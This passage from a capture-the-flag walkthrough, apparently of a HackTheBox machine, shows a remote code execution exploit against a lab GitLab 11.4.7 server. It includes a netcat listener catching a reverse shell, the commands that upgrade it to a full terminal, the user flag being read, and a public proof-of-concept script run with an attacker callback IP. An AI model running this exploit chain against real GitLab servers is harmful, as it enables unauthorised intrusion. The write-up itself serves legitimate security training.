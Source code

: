 ```

python3 -c 'import pty;pty.spawn("bash")'
git@gitlab:~/gitlab-rails/working$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
git@gitlab:~/gitlab-rails/working$ 

```

I’ll also find the user flag in `/home/dude`:

```

git@gitlab:/home/dude$ cat user.txt
e1e30b05************************

```

### Automated Alternative

There’s a bunch of POCs out there that will do that exploit chain for you. [This one](https://github.com/ctrlsam/GitLab-11.4.7-RCE) worked well. I’ll download the Python script, and run it giving my username and password, the url for the repo (it appends the port 5080 for me), and the local IP and port to catch the shell on:

```

oxdf@parrot$ python3 gitlab-sploit.py -u 0xdf -p 0xdf0xdf -g http://10.10.10.220 -l 10.10.14.8 -P 443
[+] authenticity_token: mxr9+YkkIkgYiVSMluglB4tReW05mHUtDj8zz279uDJfOn+KaX3qo9H7lA2iAQbdBTAj89wavowpUxm2SEA7QQ==
[+] Creating project with random name: project7726
[+] Running Exploit
[+] Exploit completed successfully!

```

It works and I get a shell:

```

oxdf@parrot$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 56004
id
uid=998(git) gid=998(git) groups=998(git)

```

## Shell as root [Container]
